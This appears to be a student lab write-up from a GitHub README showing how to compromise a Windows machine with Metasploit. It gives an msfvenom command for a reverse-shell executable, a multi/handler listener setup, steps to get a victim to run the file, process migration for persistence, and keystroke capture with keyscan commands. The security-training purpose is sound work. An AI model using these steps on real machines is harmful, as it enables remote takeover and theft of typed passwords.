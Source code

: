 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/a71b87b0-8f10-48c0-ae15-0049f3ab84f2)

Create a malicious executable file fun.exe using msenom 
command msfvenom -p windows/meterpreter/reverse_tcp 
LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/29263bb1-f4ee-4434-a6cb-db3c05db1e6f)

the fun.exe into the apache /var/www/html folder
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/b477d887-20a6-4ee7-b7f6-077019cf39d8)

Start apache server sudo systemctl apache2 start 
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/07e7c774-bd26-4cb0-be54-a045f40a0064)

Check the status of apache2
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/8539b43e-dba0-467c-b06b-e9fa2a111217)

Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands 
you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 0.0.0.0 exploit
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/54ce849d-78ad-49d9-8403-8f3dc8a9a858)

On the target Windows machine, open a Web browser and open this URL, replacing the 
IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/c70557d6-f0fa-4ba1-8fa1-d827f580f086)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/66ea9338-4918-4db9-b6b2-452f40bd7d6e)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. 
To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. 
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, 
including one to a remote port of 4444, as highlighted in the image below. 
Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/b312f9fa-929d-42d4-93de-a81cfe9ddaa7)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the 
target machine keyscan_start Begins capturing keys typed in the target. 
On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/d3d2f0cc-8ae2-4ce6-8c62-22dd50d0f143)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Thanikasreeb/Compromising-windows-using-Metasploit/assets/119557910/f92375b8-d498-4246-a9fa-120bf0b89e57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

